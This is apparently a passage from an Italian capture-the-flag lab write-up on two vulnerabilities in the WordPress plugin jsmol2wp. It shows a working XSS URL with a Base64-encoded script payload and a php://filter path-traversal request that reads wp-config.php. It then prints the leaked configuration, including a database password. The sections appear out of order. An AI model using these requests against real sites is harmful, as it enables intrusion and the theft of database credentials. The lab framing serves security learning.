     Code
    
    Copia codice
    
    `http://localhost/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=saveFile&data=PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=&mimetype=text/html; charset=utf-8&encoding=base64`
    
    In questo caso, il payload `<script>alert(/xss/)</script>` è codificato in Base64, rendendo più difficile per i filtri del browser rilevarlo.
    

### Conclusione

Il report evidenzia due vulnerabilità significative nel plugin "jsmol2wp" che possono essere sfruttate da un attaccante per compromettere la sicurezza di un sito WordPress. È importante che gli amministratori di sistema e i proprietari di siti web verifichino se stanno utilizzando questo plugin e, in caso affermativo, considerino di aggiornarlo o rimuoverlo per mitigare i rischi associati a queste vulnerabilità.


```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```
	### Vulnerabilità di lettura arbitraria di file e SSRF (CVE-2018-20463)
	
```
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the web site, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * Database settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/documentation/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', 'kbLSF2Vop#lw3rjDZ629*Z%G' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

```